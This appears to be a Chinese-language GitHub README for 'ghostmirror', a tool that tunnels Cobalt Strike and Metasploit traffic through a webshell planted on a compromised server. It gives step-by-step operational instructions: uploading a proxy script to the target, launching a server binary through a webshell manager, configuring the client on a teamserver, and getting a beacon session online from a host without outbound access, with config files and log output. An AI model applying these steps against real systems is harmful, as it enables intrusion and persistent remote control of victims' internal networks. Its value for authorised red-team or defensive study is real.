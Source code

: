 # 鬼镜(ghostmirror)
鬼镜(ghostmirror)是一个通过webshell实现的**内网穿透工具**.工具主体使用python开发,当前支持php,jsp,aspx三种代理脚本.
# 使用方法
## cobaltstrike不出网服务器上线
* proxy.php上传到目标服务器,确保 [http://www.test.com/proxy.php](http://192.168.1.106:81/proxy.php)可以访问,页面返回 stinger XXX!
* 修改config.ini,示例如下
```
[NET-CONFIG]
WEBSHELL = http://www.test.com/proxy.php
SERVER_LISTEN = 127.0.0.1:8000
LOCAL_LISTEN = 127.0.0.1:4444

[TOOL-CONFIG]
LOG_LEVEL = INFO
READ_BUFF_SIZE = 10240
SLEEP_TIME = 0.01
```
确保服务器127.0.0.1:8000和127.0.0.1:4444可以正常绑定
* 将mirror_server.exe和config.ini上传到目标服务器同一目录,菜刀(蚁剑)执行mirror_server.exe启动服务端
* 将mirror_client和config.ini上传到CS的teamserver服务器,执行./mirror_client启动客户端,出现如下输出表示成功
```
root@kali:~# ./mirror_client 
2019-08-30 01:42:46,311 - INFO - 220 -  ------------Client Config------------
2019-08-30 01:42:46,311 - INFO - 223 - 
LOG_LEVEL: INFO
SLEEP_TIME:0.01
READ_BUFF_SIZE: 10240
WEBSHELL: http://www.test.com/proxy.php
REMOVE_SERVER: http://127.0.0.1:8000
TARGET_LISTEN: 127.0.0.1:4444
2019-08-30 01:42:46,320 - INFO - 45 -  ------------Server Config------------
2019-08-30 01:42:46,320 - INFO - 49 - 
LOG_LEVEL: INFO
READ_BUFF_SIZE: 10240
SERVER_LISTEN: 127.0.0.1:8000
LOCAL_LISTEN: 127.0.0.1:4444
```
* 2019-08-30 01:42:46,320 - INFO - 52 - Connet to server success

cobaltstrike启动监听,host 127.0.0.1 port 4444 beacons 127.0.0.1

![图片](https://uploader.shimo.im/f/uXFSgVE6WFsyksDn.png!thumbnail)
* 使用菜刀(蚁剑)执行在目标机执行该listener的payload,客户端出现如下日志表示正在传输stager,稍后session即可上线
```
2019-08-30 01:47:43,663 - INFO - 52 - Connet to server success
2019-08-30 01:49:46,430 - WARNING - 101 - CLIENT_ADDRESS:127.0.0.1:60487 Create new tcp socket
2019-08-30 01:49:46,538 - INFO - 160 - CLIENT_ADDRESS:127.0.0.1:60487 TCP_SEND_DATA:201
2019-08-30 01:49:46,554 - INFO - 118 - CLIENT_ADDRESS:127.0.0.1:60487 
.................
................
2019-08-30 01:49:46,929 - INFO - 118 - CLIENT_ADDRESS:127.0.0.1:60487 TCP_RECV_LEN:10240

2019-08-30 01:49:49,819 - WARNING - 164 - CLIENT_ADDRESS:127.0.0.1:60487 Client socket closed
2019-08-30 01:49:49,834 - WARNING - 86 - CLIENT_ADDRESS:127.0.0.1:60487 Not in server socket list, remove
2019-08-30 01:49:49,849 - WARNING - 101 - CLIENT_ADDRESS:127.0.0.1:60545 Create new tcp socket
2019-08-30 01:49:49,956 - INFO - 160 - CLIENT_ADDRESS:127.0.0.1:60545 TCP_SEND_DATA:381
2019-08-30 01:49:49,971 - INFO - 118 - CLIENT_ADDRESS:127.0.0.1:60545 TCP_RECV_LEN:116
```
* let`s rock the party

![图片](https://uploader.shimo.im/f/dpQVqNdiyKkH9WNs.png!thumbnail)
## meterpreter_reverse_tcp不出网服务器上线
推荐使用毒刺(stinger)+meterpreter_bind_tcp上线 
# 相关工具
暂时没有公开工具实现此功能
# 已测试
## mirror_server.exe
* windows server 2012
## mirror_client
* kali
## proxy.jsp/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0
# 其他参数
```
[TOOL-CONFIG]
LOG_LEVEL = INFO //日志级别,DEBUG,INFO,WARN,ERROR
READ_BUFF_SIZE = 10240 //TCP读取BUFF(不建议大于10240)
SLEEP_TIME = 0.01 //client每次循环的间隔(秒),该值越大请求webshell次数越少,但传输越也慢
[ADVANCED-CONFIG]
REMOVE_SERVER = http://127.0.0.1:8000 // 用于多级内网穿透
TARGET_LISTEN = 192.168.3.100:22// 用于多级内网穿透
```

msf是最好的内网渗透工具
